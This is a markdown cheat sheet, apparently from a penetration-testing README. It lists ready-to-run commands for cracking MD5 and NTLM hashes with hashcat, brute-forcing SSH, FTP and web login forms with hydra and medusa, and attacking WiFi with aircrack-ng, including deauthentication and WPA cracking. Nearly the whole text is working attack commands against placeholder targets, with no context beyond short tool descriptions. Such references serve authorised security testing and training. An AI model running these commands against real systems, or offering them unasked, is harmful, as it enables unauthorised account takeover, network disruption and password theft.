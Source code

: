 - **hashcat**: Advanced password recovery
  ```bash
  # Crack MD5 hashes
  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
  
  # Crack NTLM hashes
  hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
  
  # Brute force attack
  hashcat -m 0 -a 3 hashes.txt ?a?a?a?a?a?a
  ```

### Network Login Crackers
- **hydra**: Network logon cracker
  ```bash
  # SSH brute force
  hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target_ip
  
  # HTTP POST form brute force
  hydra -l admin -P /usr/share/wordlists/rockyou.txt target_ip http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"
  
  # FTP brute force
  hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://target_ip
  ```

- **medusa**: Speedy, parallel, modular login brute-forcer
  ```bash
  # SSH brute force
  medusa -h target_ip -u admin -P /usr/share/wordlists/rockyou.txt -M ssh
  
  # Multiple hosts
  medusa -H hosts.txt -u admin -P /usr/share/wordlists/rockyou.txt -M ssh
  ```

## Wireless Attack Tools

### WiFi Security Testing
- **aircrack-ng**: WiFi security auditing tools
  ```bash
  # Monitor mode
  airmon-ng start wlan0
  
  # Capture packets
  airodump-ng wlan0mon
  
  # Capture specific network
  airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
  
  # Deauth attack
  aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon
  
  # Crack WPA/WPA2
  aircrack-ng -w /usr/share/wordlists/rockyou.txt capture.cap
  ```
